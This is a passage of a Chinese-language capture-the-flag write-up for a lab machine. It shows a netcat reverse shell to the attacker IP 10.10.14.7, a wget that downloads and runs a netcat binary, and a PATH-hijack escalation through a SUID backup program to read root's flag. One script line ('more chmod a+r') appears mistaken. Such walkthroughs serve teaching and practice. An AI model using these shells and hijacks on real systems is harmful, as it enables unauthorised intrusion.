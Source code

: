 ![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-09/5.PNG)

#### 上传nc

```
mitsos@LazyClown:~$whereis nc
/bin/nc

尝试nc反弹shell，结果netcat-openbsd package，不支持-e参数。
mitsos@LazyClown:~$/bin/nc -e /bin/sh 10.10.14.7 1122


于是上传一个nc
wget http://10.10.14.7/netcat;chmod a+x netcat

/home/mitsos/netcat -h 
/home/mitsos/netcat -e /bin/sh 10.10.14.7 1122

---
第一次上传的64位nc,提示出错
-bash: /home/mitsos/nc: cannot execute binary file: Exec format error
于是再次上传32位nc
---
uname -a
Linux LazyClown 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux

i686说明是32位的系统版本
```

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-09/6.PNG)
成功反弹shell

## 提权
新建cat文件，内容是shell脚本。当suid程序执行cat /etc/shadow，加入环境变量后，会先执行以下脚本。

```
#!/bin/sh
more /root/root.txt > /home/mitsos/root.txt
```

添加环境变量`export PATH=.:$PATH`；`chmod +x cat`，给/home/mitsos/cat添加执行权限。

运行/backup，发现root.txt已经复制到该目录。但是查看一下，发现还是root权限可读。

```
#!/bin/bash
more chmod a+r /home/mitsos/root.txt
```

修改cat，然后再次运行backup即可获得root.txt的内容
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-09/7.PNG)
